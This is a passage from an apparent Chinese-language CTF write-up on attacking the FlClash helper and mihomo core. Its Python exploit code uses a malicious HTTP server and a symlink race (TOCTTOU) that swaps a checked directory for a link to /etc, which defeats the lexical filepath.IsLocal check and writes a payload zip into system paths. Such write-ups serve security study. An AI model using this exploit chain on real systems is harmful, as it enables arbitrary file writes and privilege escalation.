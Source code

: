 以及一个简单的 HTTP 服务器来提供 external-ui 要下载的文件：

```python
class HTTPHandler(socketserver.StreamRequestHandler):
    def handle(self):
        threading.Thread(target=lambda: self.rfile.read(), daemon=True).start()
        self.wfile.write(b"HTTP/1.1 200 OK\r\n")
        self.wfile.write(b"Content-Length: %d\r\n" % (len(payload_zip),))
        self.wfile.write(b"\r\n")
        self.wfile.write(payload_zip)
```

启动两个 server，然后向 `helper` 发请求启动 FLCLashCore：

```python
HOST = "127.0.0.1"
PORT = 6666

def start():
    print(requests.post(
        "http://127.0.0.1:47890/start",
        json={"path": "/root/secure/FlClashCore", "arg": f"{PORT}"}
    ).text)

with socketserver.TCPServer((HOST, PORT), MyTCPHandler) as server, \
        socketserver.TCPServer((HOST, 7777), HTTPHandler) as httpserver:
    threading.Thread(target=lambda: httpserver.handle_request()).start()
    start()
    server.handle_request()
```

（再次强烈建议在题目环境中包含 httpx，如果能再来个 anyio 就更好了（

但尝试后发现 setupConfig 会报错：`external UI name is not local: ../../etc`，这和文章里说的不一样啊，又去翻代码才发现这个路径穿越在当时就已经被 [commit `
608ddb1`](https://github.com/chen08209/Clash.Meta/commit/608ddb1b442c1e83579454e0ffd784e141e77cea) 修掉了。果然这种洞还是得在 mihomo 里修复，全都甩锅给 UI 包装器并不合理。

那问题应该从哪里找突破口呢？搜索 [`filepath.IsLocal` 文档](https://pkg.go.dev/path/filepath#IsLocal)，发现文档提到它是个纯词法操作，不考虑符号链接，那这洞没修完啊，于是我把视线转向了符号链接。而且转念一想，这也是一个 TOCTTOU，只要在检查的时候让符号链接指向合理的路径，在解压的时候再指向我们想要写入的路径不就行了？

于是从配置中删掉 external-ui-name，在 python 脚本启动时先 `os.mkdir(f"{HOMEDIR}/foobar")` 目录，然后在处理 HTTP 下载压缩包时把目录删掉，创建一个符号链接，此时已经是路径检查之后了：

```python
class HTTPHandler(socketserver.StreamRequestHandler):
    def handle(self):
        threading.Thread(target=lambda: self.rfile.read(), daemon=True).start()
        os.rmdir(f"{HOMEDIR}/foobar")
        os.symlink("/etc", f"{HOMEDIR}/foobar")
        self.wfile.write(b"HTTP/1.1 200 OK\r\n")
        self.wfile.write(b"Content-Length: %d\r\n" % (len(payload_zip),))
        self.wfile.write(b"\r\n")
        self.wfile.write(payload_zip)
```
